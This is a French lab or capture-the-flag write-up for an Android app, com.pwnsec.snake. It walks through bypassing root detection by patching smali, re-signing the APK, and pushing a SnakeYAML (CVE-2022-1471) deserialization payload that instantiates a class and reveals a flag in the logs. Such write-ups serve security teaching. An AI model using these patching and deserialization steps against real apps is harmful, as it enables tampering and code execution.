# 🐍 Snake Android App Exploitation (CVE-2022-1471 - SnakeYAML)

Ce projet démontre une exploitation d'une application Android vulnérable (`com.pwnsec.snake`) utilisant SnakeYAML (< 2.0), permettant une désérialisation arbitraire.

---

### 🖼️ Étape 1 : Décompilation de l’APK



Utilisation de `apktool` pour décompiler l'application Android :

```bash
apktool d snake.apk -o snake_smali
```

➡️ Permet d’accéder au code Smali et aux ressources.

---

### 🖼️ Étape 2 : Navigation dans le code Smali



Accès au dossier contenant le code de l’application :

```bash
cd snake_smali/smali/com/pwnsec/snake/
```

➡️ Préparation pour analyser et modifier le code.

---

### 🖼️ Étape 3 : Analyse et patch root detection



Modification de la méthode :

```smali
isDeviceRooted(...)
```

➡️ Patch appliqué :

```smali
const/4 v0, 0x0
return v0
```

✔️ Force le retour à `false` → bypass root detection.

---

### 🖼️ Étape 4 : Patch dans onCreate



Modification du flux d’exécution pour ignorer la sortie de l’app :

```smali
goto :cond_0
```

✔️ Empêche l’application de se fermer si root détecté.

---

### 🖼️ Étape 5 : Patch des autres détections



Fonctions patchées :

* `checkForDangerousBinaries()`
* `checkForRootManagementApps()`
* `checkForRootShell()`
* `checkForWritableSystem()`

➡️ Toutes modifiées pour retourner `false`.

---

### 🖼️ Étape 6 : Rebuild de l’APK



```bash
apktool b snake_smali -o snake_patched.apk
```

✔️ Génération de l’APK modifié.

---

### 🖼️ Étape 7 : Signature de l’APK



```bash
apksigner sign --ks debug.keystore snake_patched.apk
```

✔️ Signature nécessaire pour installation.

---

### 🖼️ Étape 8 : Désinstallation ancienne version



```bash
adb uninstall com.pwnsec.snake
```

---

### 🖼️ Étape 9 : Installation APK patché



```bash
adb install -r snake_patched.apk
```

✔️ Installation réussie.

---

### 🖼️ Étape 10 : Création du dossier exploit



```bash
adb shell mkdir -p /sdcard/Snake
```

---

### 🖼️ Étape 11 : Envoi du payload YAML



```bash
adb push Skull_Face.yml /sdcard/Snake/
```

Payload :

```yaml
!!com.pwnsec.snake.BigBoss ["Snaaaaaaaaaaaaaake"]
```

➡️ Exploite SnakeYAML (CVE-2022-1471).

---

### 🖼️ Étape 12 : Lancement de l’application avec Intent



```bash
adb shell am start -n com.pwnsec.snake/.MainActivity -e SNAKE BigBoss
```

✔️ Déclenche la lecture du fichier YAML.

---

### 🖼️ Étape 13 : Lecture des logs



```bash
adb logcat | findstr /i "PWNSEC"
```

➡️ Observation du comportement de l’application.

---

### 🖼️ Étape 14 : Résultat final



✔️ Le payload est exécuté via désérialisation.
✔️ La classe `BigBoss` est instanciée.
✔️ Le flag est affiché dans les logs.

* Projet réalisé dans le cadre d’un lab Android Security
